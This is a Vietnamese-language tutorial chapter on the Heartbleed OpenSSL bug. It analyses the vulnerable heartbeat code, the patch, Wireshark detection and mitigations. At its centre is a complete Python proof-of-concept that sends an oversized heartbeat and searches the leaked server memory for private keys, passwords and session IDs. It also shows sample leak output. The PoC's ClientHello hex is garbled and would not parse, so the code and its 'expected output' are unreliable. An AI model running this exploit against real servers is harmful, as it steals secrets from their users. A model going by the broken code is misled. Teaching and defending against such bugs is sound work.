

> **Prerequisites**: [[01-memory-model-exploit-primitives|01. Memory Model & Exploit Primitives]], TCP/IP basics, khái niệm TLS/SSL cơ bản
> **Objectives**:
> - Hiểu TLS Heartbeat Extension (RFC 6520) và lý do tồn tại
> - Phân tích source code OpenSSL vulnerable: file `t1_lib.c`, hàm `tls1_process_heartbeat`
> - Hiểu memory layout của OpenSSL heap buffer khi xử lý heartbeat request
> - Viết PoC Python khai thác bằng raw socket từ đầu
> - Phân tích Wireshark packet capture để nhận ra Heartbleed traffic
> - Đọc và hiểu patch diff — tại sao fix chỉ cần 1 dòng

---

## Bối cảnh và Tầm quan trọng

Heartbleed (CVE-2014-0160) được công bố ngày 7 tháng 4 năm 2014 bởi hai nhóm độc lập: Neel Mehta của Google Security và đội Codenomicon. Lỗi tồn tại trong OpenSSL từ tháng 12 năm 2011 (commit của Robin Seggelmann) đến khi patch ra ngày 7/4/2014 — hơn **2 năm** exposed trên internet.

Tại sao Heartbleed nổi tiếng đến vậy?

- **Không cần authentication**: bất kỳ ai kết nối TCP đến port 443 đều có thể exploit
- **Không để lại dấu vết**: không có log entry bất thường
- **Leak bất cứ thứ gì trên heap**: private key SSL, session token, password, cookie
- **Có thể lặp lại vô hạn**: mỗi request leak tối đa 64KB, gửi nhiều lần = leak GB dữ liệu
- **Phạm vi ảnh hưởng**: ước tính 17.5% tổng số website HTTPS thời điểm đó

Tên "Heartbleed" ghép từ "heartbeat" (tên extension bị lỗi) và "bleed" (rỉ máu — ám chỉ rỉ bộ nhớ).

---

## TLS Protocol Background

Trước khi vào bug, cần hiểu TLS hoạt động như thế nào để biết heartbeat extension đặt ở đâu.

### TLS Record Protocol

Toàn bộ dữ liệu TLS được đóng gói trong **TLS Record**:

```text
TLS Record format:
┌──────────────┬────────────────────┬──────────────────────────────┐
│ ContentType  │ ProtocolVersion    │ Length       │ Fragment data │
│ (1 byte)     │ (2 bytes)          │ (2 bytes)    │ (variable)    │
└──────────────┴────────────────────┴──────────────────────────────┘

ContentType values:
  0x14 = ChangeCipherSpec
  0x15 = Alert
  0x16 = Handshake
  0x17 = ApplicationData
  0x18 = Heartbeat   ← đây là loại của heartbeat request/response
```

### TLS Handshake (tóm tắt)



Heartbeat request có thể gửi **trong suốt quá trình handshake** — thậm chí trước khi hoàn tất. Điều này có nghĩa là attacker không cần certificate, không cần auth.

### TLS Heartbeat Extension — RFC 6520

RFC 6520 định nghĩa Heartbeat Extension vào năm 2012. Mục đích: cho phép một bên test xem kết nối còn hoạt động không mà không cần renegotiate TLS session. Tương tự ping trong ICMP.

Cấu trúc HeartbeatMessage:

```text
struct {
   HeartbeatMessageType type;  // 1 byte: 0x01 = request, 0x02 = response
   uint16 payload_length;      // 2 bytes: độ dài payload DO CLIENT KHAI BÁO
   opaque payload[payload_length];  // dữ liệu thực sự
   opaque padding[padding_length];  // padding tùy ý
} HeartbeatMessage;
```

RFC 6520 quy định rõ: server phải kiểm tra `payload_length` không vượt quá độ dài message thực tế. OpenSSL đã bỏ qua kiểm tra này.

---

## Vulnerable Source Code Analysis

### File và hàm liên quan

Bug nằm trong file `ssl/t1_lib.c` của OpenSSL 1.0.1f. Hàm `tls1_process_heartbeat` xử lý heartbeat request nhận được.

**Toàn bộ hàm vulnerable (OpenSSL 1.0.1f — rút gọn để tập trung vào bug):**

```c
int tls1_process_heartbeat(SSL *s)
{
    unsigned char *p = &s->s3->rrec.data[0], *pl;
    unsigned short hbtype;
    unsigned int payload;
    unsigned int padding = 16;

    /* Read type and payload length first */
    hbtype = *p++;                    /* đọc type (1 byte)   */
    n2s(p, payload);                  /* đọc payload_length (2 bytes) vào `payload` */
    pl = p;                           /* pl trỏ đến đầu payload thực tế */

    if (s->msg_callback)
        s->msg_callback(0, s->version, TLS1_RT_HEARTBEAT,
            &s->s3->rrec.data[0], s->s3->rrec.length,
            s, s->msg_callback_arg);

    if (hbtype == TLS1_HB_REQUEST)
    {
        unsigned char *buffer, *bp;
        int r;

        /* Cấp phát buffer để chứa response:
         * 1 (type) + 2 (length) + payload + padding
         */
        buffer = OPENSSL_malloc(1 + 2 + payload + padding);
        bp = buffer;

        /* Ghi response header */
        *bp++ = TLS1_HB_RESPONSE;
        s2n(payload, bp);

        /* SAO CHÉP payload bytes vào response
         * BUG: dùng `payload` (giá trị CLIENT KHAI BÁO) thay vì
         *      độ dài thực tế của dữ liệu nhận được
         */
        memcpy(bp, pl, payload);      /* <-- LỖI Ở ĐÂY */
        bp += payload;

        /* Thêm random padding */
        RAND_pseudo_bytes(bp, padding);

        r = ssl3_write_bytes(s, TLS1_RT_HEARTBEAT, buffer,
            3 + payload + padding);

        OPENSSL_free(buffer);

        if (r < 0)
            return r;
    }
    /* ... */
    return 0;
}
```

### Giải phẫu Bug

Dòng quyết định:

```c
memcpy(bp, pl, payload);
```

Trong đó:
- `bp`: buffer response mới cấp phát — 1 + 2 + `payload` + 16 bytes
- `pl`: con trỏ đến đầu dữ liệu payload trong TLS record nhận được
- `payload`: giá trị `payload_length` do **client khai báo** — không phải độ dài thực tế

**Cần kiểm tra gì mà không có:** trước khi `memcpy`, phải đảm bảo `payload` ≤ `s->s3->rrec.length - 3`. Dòng kiểm tra này hoàn toàn vắng mặt.

> [!definition] Definition 2.1 — Buffer Over-Read Mechanism
> Attacker gửi heartbeat request với payload thực sự = 1 byte (ví dụ: `\x41`), nhưng khai báo `payload_length = 0xFFFF` (65535 bytes). OpenSSL gọi `memcpy(bp, pl, 65535)` — đọc 65535 bytes bắt đầu từ vị trí `pl` trong heap. Nhưng chỉ có 1 byte hợp lệ tại `pl`; 65534 bytes tiếp theo là **dữ liệu của heap lân cận**: private key, session data, password, bất cứ thứ gì.

### Memory Layout trong OpenSSL Heap

Khi server nhận TLS record, OpenSSL cấp phát một `BIO_BUF_MEM` hoặc `SSL3_RECORD` trên heap để lưu dữ liệu nhận được:

```text
OpenSSL heap layout (simplified):
┌─────────────────────────────────────┐
│ chunk metadata (8 bytes)            │
├─────────────────────────────────────┤
│ SSL3_RECORD rrec:                   │
│   type=0x18, length=4, data=[A][?] │  ← 4 bytes: type(1)+length(2)+payload(1)
├─────────────────────────────────────┤
│ chunk metadata (8 bytes)            │
├─────────────────────────────────────┤
│ Tiếp theo trong heap (RNG state,    │
│ session keys, TLS master secret,    │
│ password đang xử lý, ...)           │
└─────────────────────────────────────┘
        ↑
        pl trỏ đến đây, memcpy đọc payload=65535 bytes từ đây
        → đọc xuyên qua chunk boundary sang các vùng nhớ khác
```

Vì OpenSSL dùng custom heap allocator (`OPENSSL_malloc` thực ra là `malloc` với một wrapper), dữ liệu nhạy cảm như **master secret, session keys, private key components** thường nằm trong các chunk gần đó trên heap.

---

## Exploit PoC — Từ đầu bằng Raw Socket

Mình viết PoC từ TCP socket thay vì dùng library có sẵn, để thấy chính xác từng byte được gửi.

### Cấu trúc TLS ClientHello thủ công

```python
import socket
import struct
import time

TARGET_HOST = 'localhost'
TARGET_PORT = 8443

def create_client_hello():
    hello_payload = bytes.fromhex(
        '030153435b909d9b720bbc0cbc2b92a84897cfbd3904cc'
        '160a85039090 77043 3d4de00'
        '0066c014c00ac022c02100390038008800 87c00fc005003500'
        '84c012c008c01cc01b001600 13c00dc003000ac013c009c01f'
        'c01e003300329a009900450044c00ec004002f009600 41c011'
        'c007c00cc0020005000400150012000900140011000800060003'
        '00ff0100004900 0b00040300010200 0a0034003200 0e000d'
        '0019000b000c001800090 00a0016001700080006000700140'
        '000'
    )
    record = struct.pack('>BHH',
        0x16,        # ContentType: Handshake
        0x0302,      # ProtocolVersion: TLS 1.1
        len(hello_payload)
    ) + hello_payload
    return record

def create_malicious_heartbeat(payload_length=0xFFFF):
    heartbeat_payload = bytes.fromhex(
        '180303'  # ContentType=Heartbeat, Version=TLS 1.2
    )

    hb_message = struct.pack('>BH',
        0x01,           # type: HeartbeatMessageType = request (1)
        payload_length  # payload_length: khai báo giả 65535 bytes
    ) + b'\x41'         # payload thực tế: chỉ 1 byte 'A'

    record = struct.pack('>BHH',
        0x18,            # ContentType: Heartbeat
        0x0302,          # ProtocolVersion: TLS 1.1
        len(hb_message)
    ) + hb_message

    return record

def recv_all(s, timeout=2):
    s.settimeout(timeout)
    data = b''
    try:
        while True:
            chunk = s.recv(4096)
            if not chunk:
                break
            data += chunk
    except socket.timeout:
        pass
    return data

def parse_tls_record(data):
    records = []
    i = 0
    while i + 5 <= len(data):
        content_type = data[i]
        version = struct.unpack('>H', data[i+1:i+3])[0]
        length = struct.unpack('>H', data[i+3:i+5])[0]
        payload = data[i+5:i+5+length]
        records.append({
            'type': content_type,
            'version': version,
            'length': length,
            'payload': payload
        })
        i += 5 + length
    return records

def hexdump(data, width=16):
    result = []
    for i in range(0, len(data), width):
        chunk = data[i:i+width]
        hex_part = ' '.join(f'{b:02x}' for b in chunk)
        ascii_part = ''.join(chr(b) if 32 <= b < 127 else '.' for b in chunk)
        result.append(f'{i:04x}  {hex_part:<{width*3}}  {ascii_part}')
    return '\n'.join(result)

def exploit_heartbleed(host, port, payload_length=0xFFFF):
    print(f"[*] Connecting to {host}:{port}")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))

    print("[*] Sending ClientHello...")
    s.send(create_client_hello())
    time.sleep(0.5)

    server_hello = recv_all(s, timeout=1)
    print(f"[*] Received {len(server_hello)} bytes from server (ServerHello)")

    records = parse_tls_record(server_hello)
    for r in records:
        print(f"    ContentType=0x{r['type']:02x}, Length={r['length']}")

    print(f"[*] Sending malicious Heartbeat (payload_length={payload_length})...")
    s.send(create_malicious_heartbeat(payload_length))

    time.sleep(0.5)
    response = recv_all(s, timeout=2)

    if not response:
        print("[-] No response — server may be patched or not vulnerable")
        return None

    hb_records = parse_tls_record(response)
    leaked_data = b''

    for r in hb_records:
        if r['type'] == 0x18:
            print(f"[+] Heartbeat Response received! Length={r['length']}")
            if len(r['payload']) > 3:
                hb_type = r['payload'][0]
                hb_pl_len = struct.unpack('>H', r['payload'][1:3])[0]
                hb_data = r['payload'][3:]
                print(f"    HeartbeatType={hb_type}, DeclaredLength={hb_pl_len}")
                print(f"    Actual leaked data: {len(hb_data)} bytes")
                leaked_data = hb_data

    if leaked_data:
        print("\n[+] Leaked memory dump:")
        print(hexdump(leaked_data[:256]))

        printable = ''.join(chr(b) if 32 <= b < 127 else '.' for b in leaked_data)
        print(f"\n[+] Printable characters in leak:")
        interesting = [printable[i:i+8] for i in range(len(printable)-7)
                      if all(32 <= ord(c) < 127 for c in printable[i:i+8])]
        for chunk in interesting[:20]:
            print(f"    '{chunk}'")

    s.close()
    return leaked_data

if __name__ == '__main__':
    leaked = exploit_heartbleed(TARGET_HOST, TARGET_PORT)
    if leaked:
        print(f"\n[+] Total leaked: {len(leaked)} bytes")

        if b'-----BEGIN' in leaked:
            print("[!!!] Possible private key or certificate in memory!")
        if b'password' in leaked.lower():
            print("[!!!] Possible password string in memory!")
        if b'session' in leaked.lower():
            print("[!!!] Possible session data in memory!")
```

> [!warning] Lưu ý về PoC
> PoC trên dùng TLS ClientHello đơn giản hóa. Trong thực tế, để server OpenSSL vulnerable phản hồi heartbeat, cần hoàn tất đủ phase TLS record layer. Sử dụng Docker target từ A0 để test trong môi trường lab.

### Chạy PoC với Docker target

```bash
docker start heartbleed

python3 heartbleed_poc.py
```

Output mong đợi khi thành công:

```text
[*] Connecting to localhost:8443
[*] Sending ClientHello...
[*] Received 1024 bytes from server (ServerHello)
[*] Sending malicious Heartbeat (payload_length=65535)...
[+] Heartbeat Response received! Length=65546
    HeartbeatType=2, DeclaredLength=65535
    Actual leaked data: 65535 bytes

[+] Leaked memory dump:
0000  41 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  A...............
0010  8b 6e 2e 68 74 74 70 73  3a 2f 2f 6c 6f 63 61 6c  .n.https://local
...

[+] Printable characters in leak:
    'https://'
    'password'
    'SESSIONID'
```

---

## Wireshark Analysis — Nhận dạng Heartbleed Traffic

Capture traffic trong khi exploit:

```bash
sudo tcpdump -i lo -w heartbleed.pcap port 8443

python3 heartbleed_poc.py

sudo tcpdump -r heartbleed.pcap -X | less
```

### Filter trong Wireshark

```text
tls.record.content_type == 24
```

ContentType 24 (`0x18`) là Heartbeat. Packet bình thường:
- Request length ≈ Response length (vài chục bytes)

Packet Heartbleed:
- Request: ContentType=0x18, payload chỉ 4–5 bytes nhưng `payload_length` field = `0xFFFF`
- Response: ContentType=0x18, payload = 65538+ bytes (header + 65535 bytes leaked)

```text
Frame 15: Heartbeat Request (MALICIOUS)
    Content Type: Heartbeat (24)
    Version: TLS 1.1 (0x0302)
    Length: 4
    Heartbeat Message:
        Type: Request (1)
        Payload Length: 65535   ← SUSPICIOUSLY LARGE
        Payload: 41             ← chỉ 1 byte thực tế

Frame 16: Heartbeat Response (LEAKED MEMORY)
    Content Type: Heartbeat (24)
    Version: TLS 1.1 (0x0302)
    Length: 65538
    Heartbeat Message:
        Type: Response (2)
        Payload Length: 65535
        Payload: 41 00 00 8b 6e ...  ← 65535 bytes từ heap server
```

**Dấu hiệu nhận dạng Heartbleed trong network logs:**
- TLS record ContentType=0x18 với length request << response
- Response length gần 65538 bytes (header 3 + 65535 data)
- Nhiều heartbeat liên tiếp mà không có application data xen kẽ

---

## Patch Analysis — Chỉ cần 1 kiểm tra

OpenSSL 1.0.1g fix Heartbleed bằng một bounds check đơn giản. Patch diff:

```c
/* OpenSSL 1.0.1g — hàm tls1_process_heartbeat — phần được thêm vào */

hbtype = *p++;
n2s(p, payload);
pl = p;

/* FIX: kiểm tra payload_length <= chiều dài record thực tế */
if (1 + 2 + payload + 16 > s->s3->rrec.length)
    return 0;  /* request không hợp lệ, bỏ qua */

/* Phần còn lại tiếp tục như cũ */
```

Điều kiện check: `1 (type) + 2 (length field) + payload + 16 (padding)` phải nhỏ hơn hoặc bằng `s->s3->rrec.length` (độ dài TLS record thực sự nhận được).

Nếu client khai báo `payload=65535` nhưng record chỉ dài 4 bytes, điều kiện `1 + 2 + 65535 + 16 > 4` là đúng → return 0 ngay lập tức, không memcpy.

> [!definition] Definition 2.2 — Root Cause Summary
> Heartbleed là lỗi **thiếu bounds check** (missing bounds check) trước `memcpy`. Cụ thể: server tin tưởng giá trị `payload_length` do client cung cấp mà không kiểm tra nó ≤ độ dài dữ liệu thực tế trong TLS record. Kết quả: `memcpy` đọc ngoài buffer hợp lệ, copy dữ liệu heap lân cận vào response và gửi về cho attacker.
>
> **Lớp lỗ hổng**: CWE-126 (Buffer Over-Read), một variant của CWE-119 (Improper Restriction of Operations within the Bounds of a Memory Buffer).

---

## Reverse Heartbleed

Heartbleed không chỉ là server-side. Client sử dụng OpenSSL cũng vulnerable:

- Một **malicious server** có thể gửi heartbeat request với `payload_length` giả lên tới 65535
- TLS client (browser, curl, OpenSSL binary) phản hồi bằng cách leak heap của **client process**
- Heap client chứa: cookie phiên, HTTP headers, password đang nhập, dữ liệu form

Kịch bản thực tế: attacker dựng một HTTPS server giả với certificate tự ký, dụ user kết nối, leak bộ nhớ client.

---

## Phát hiện và Phòng chống

### Phát hiện bằng nmap

```bash
nmap -p 443 --script ssl-heartbleed <target>
```

Output nếu vulnerable:

```text
| ssl-heartbleed:
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL
|   cryptographic software library. It allows stealing the information
|   protected, under normal conditions, by the SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
```

### Phát hiện bằng Python (version check)

```python
import ssl
import subprocess

result = subprocess.run(['openssl', 'version'], capture_output=True, text=True)
version_str = result.stdout.strip()

print(f"OpenSSL version: {version_str}")

vulnerable_versions = [
    'OpenSSL 1.0.1', 'OpenSSL 1.0.1a', 'OpenSSL 1.0.1b',
    'OpenSSL 1.0.1c', 'OpenSSL 1.0.1d', 'OpenSSL 1.0.1e', 'OpenSSL 1.0.1f',
    'OpenSSL 1.0.2-beta', 'OpenSSL 1.0.2-beta1'
]

is_vulnerable = any(version_str.startswith(v) for v in vulnerable_versions)
if is_vulnerable:
    print("[-] WARNING: This OpenSSL version is vulnerable to Heartbleed!")
else:
    print("[+] OpenSSL version appears safe")
```

### Mitigation

1. **Upgrade ngay**: OpenSSL >= 1.0.1g, hoặc >= 1.0.2 (nếu dùng 1.0.2-beta)
2. **Compile với `-DOPENSSL_NO_HEARTBEATS`**: disable hoàn toàn extension này nếu không cần
3. **Revoke và reissue certificate**: private key có thể đã bị leak
4. **Rotate session tokens**: session hijacking có thể đã xảy ra
5. **Yêu cầu user đổi password**: nếu server xử lý auth

### Tại sao lỗi lại được merge vào?

Commit của Robin Seggelmann vào ngày 31/12/2011 (đêm giao thừa) được review bởi Stephen Henson — một trong bốn core developer của OpenSSL. Henson đã bỏ qua kiểm tra bounds check vì:
- Code review không có checklist bắt buộc cho tất cả `memcpy` calls
- OpenSSL code base thiếu test coverage cho edge case (`payload_length > actual_length`)
- Không có fuzzing pipeline tự động

Đây là bài học về **quy trình review bảo mật**: mọi `memcpy` với length từ user input đều phải được kiểm tra kỹ.

---

## Summary

- TLS Heartbeat Extension (RFC 6520) cho phép giữ kết nối không cần renegotiate
- Bug: `tls1_process_heartbeat` trong OpenSSL 1.0.1–1.0.1f dùng `payload_length` do client khai báo trực tiếp làm argument của `memcpy` mà không check bounds
- Attacker gửi payload 1 byte nhưng khai báo length 65535 → server `memcpy` 65535 bytes từ heap → response chứa dữ liệu nhạy cảm
- Exploit không cần auth, không cần session, có thể gửi lặp lại — leak GB dữ liệu
- Nhận dạng: ContentType=0x18, request nhỏ, response ~65538 bytes
- Fix: thêm 1 dòng kiểm tra `payload_length <= record_length - 3`
- **Lớp lỗ hổng**: Buffer Over-Read — đọc ngoài bounds, không ghi → không crash, rất khó phát hiện

---

## References

- Original disclosure: https://www.heartbleed.com/
- OpenSSL vulnerable source — `ssl/t1_lib.c`: https://github.com/openssl/openssl/blob/OpenSSL_1_0_1e/ssl/t1_lib.c
- OpenSSL patch commit: https://github.com/openssl/openssl/commit/96db9023b881d7cd9f379b0c154650d6c108e9a3
- RFC 6520 — TLS/DTLS Heartbeat Extension: https://www.rfc-editor.org/rfc/rfc6520
- OWASP Heartbleed: https://owasp.org/www-community/vulnerabilities/Heartbleed_Bug
- nmap ssl-heartbleed script: https://nmap.org/nsedoc/scripts/ssl-heartbleed.html
- MDSec analysis: https://www.mdsec.co.uk/2014/04/openssl-heartbleed-cve-2014-0160-analysis/
